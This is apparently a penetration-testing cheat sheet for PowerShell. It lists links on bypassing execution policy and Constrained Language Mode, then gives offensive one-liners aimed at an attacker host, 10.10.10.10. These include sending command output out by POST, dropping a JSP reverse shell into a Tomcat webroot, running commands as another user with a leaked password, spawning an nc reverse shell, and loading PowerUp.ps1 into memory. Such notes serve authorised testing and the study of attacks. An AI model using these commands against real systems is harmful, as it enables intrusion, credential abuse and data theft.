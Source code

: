 # powershell

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
* https://adsecurity.org/?p=2921
* https://blogs.technet.microsoft.com/kfalde/2017/01/20/pslockdownpolicy-and-powershell-constrained-language-mode/
* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
* https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
* https://pen-testing.sans.org/blog/2016/05/25/sans-powershell-cheat-sheet/
* https://blog.backslasher.net/wget-in-powershell-v3.html
* https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/
* https://medium.com/tsscyber/pentesting-and-hta-bypassing-powershell-constrained-language-mode-53a42856c997
* https://bohops.com/2018/01/07/executing-commands-and-bypassing-applocker-with-powershell-diagnostic-scripts/

Bypass of CLM : https://github.com/padovah4ck/PSByPassCLM


## Data exfiltration :

```
Invoke-WebRequest -Method POST -Body (whoami | Out-String) -Uri http://10.10.10.10:4444
```

## file upload

```
Invoke-WebRequest 'http://10.10.10.10/jsp-reverse.jsp' -OutFile c:\tomcat\apache-tomcat\webapps\ROOT\Eewoo8EiVufohkiTh1Duunue4.jsp
```

## Other user execution

```
$password = 'leaked-passowrd' | ConvertTo-SecureString -AsPlainText -force; $username='WINDEV\user';$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $password;
Invoke-Command -Credential $cred -ComputerName . -ScriptBlock {Invoke-WebRequest -Method POST -Body (whoami | Out-String) -Uri http://10.10.10.10:4444}
```

## Other user execution reverse shell
```
Invoke-Command -Credential $cred -ComputerName . -ScriptBlock {Invoke-WebRequest -Method POST -Body (c:\users\user\nc.exe -e cmd.exe 10.10.10.10 443 2>&1 | Out-String) -Uri http://10.10.10.10:4444}
```

## Load on the fly 

```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerSploit/Privesc/PowerUp.ps1')
```
